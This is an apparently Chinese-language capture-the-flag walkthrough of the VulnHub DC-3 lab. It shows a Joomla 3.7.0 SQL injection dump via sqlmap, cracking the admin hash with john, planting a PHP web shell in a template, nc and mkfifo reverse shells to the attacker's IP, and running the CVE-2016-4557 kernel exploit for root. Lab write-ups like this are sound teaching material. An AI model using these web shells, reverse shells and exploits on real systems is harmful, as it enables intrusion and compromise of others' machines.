



# DC3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-3,312/

**Description**

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

**Technical Information**

DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.

Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- Joomla SQL 注入 (中期)
- john 跑 hash (中期)
- web 命令执行 (中期)
- CVE-2016-4557 提权 (后期)

**实验环境**

`环境仅供参考`

`!!!注意,VMware 环境需要下载一个单独的 DC-3 VMware 版本!!!`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.138` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.138
```


发现只开放一个 80 端口,那么就只能从这入手了，访问 web 发现，是一个 joomla 网站


dirhunt 目录扫描看看
```
pip3 install dirhunt
dirhunt http://192.168.141.138/
```


没啥有用的东西,用 joomscan 试试,这个是 OWASP 的一个专门扫描 Joomla 漏洞的工具

> 注: 如果 git速度太慢，请参考 [Misc-Plan](../../../../Plan/Misc-Plan.md#git) 中给 git 或终端走代理的方法

```bash
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl -u http://192.168.141.138/
```


没有啥东西，不过起码告诉了我版本是 3.7.0

---

# 中期-漏洞利用

使用 searchsploit 找找这个版本的漏洞
```bash
searchsploit -w Joomla 3.7.0
```


Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞，更多漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Joomla)

直接 SQLMAP 走起
```bash
sqlmap -u "http://192.168.141.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```

一路 y 就行了，可以看到跑出了后台账号密码



```
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是 bcrypt 加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑
```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```



ok,跑出密码 `snoopy` ,登录,注意不是在 `http://192.168.141.138/index.php` 登录，而是在 `http://192.168.141.138/administrator/index.php` 登录，这 TM 才是后台


是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.141.138/administrator/index.php?option=com_templates&view=templates`


这里随便找一个模板，我就用 Beez3 了，看它不爽

到 index.php 里加点代码
```php
system($_GET['cmd']);
```


尝试访问模板预览 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=whoami`


ok，命令成功执行，下面直接准备回弹 shell

kali 开启监听
```bash
nc -lvp 4444
```

访问 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=nc%20-nv%20192.168.141.134%204444%20-e%20/bin/bash`

等待了半天,没弹回来,什么鬼,换个回弹方法试试,回弹方法见 [后渗透](../../../笔记/RedTeam/后渗透/后渗透.md#Linux) Linux 下回弹 shell 部分

注: 这里试了半天,用了很多方法都没有回弹成功,只好暂时另辟蹊径了

到 index.php 里加个一句话把
```php
<?php eval($_POST[1]);?>
```


使用蚁剑连接


连上去了,手动在弹个 shell 回来
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```


谜题解开了,这 TM 是 openbad版本的 nc,我不管,老子就是要弹
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```


狗日的，还不是被我连上了,改下交互,查看版本
```bash
lsb_release -a
uname -a
```


---

# 后期-提权

使用 searchsploit 找找这个版本的漏洞
```bash
searchsploit -w ubuntu 16.04 4.4.x
```



存在提权漏洞 CVE-2016-4557

找个 EXP 用用
```bash
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

EXP 传给靶机,kali 启个 web
```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行
```
wget 192.168.141.134/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```


提权成功,感谢靶机作者 @DCUA7,查看最终 flag


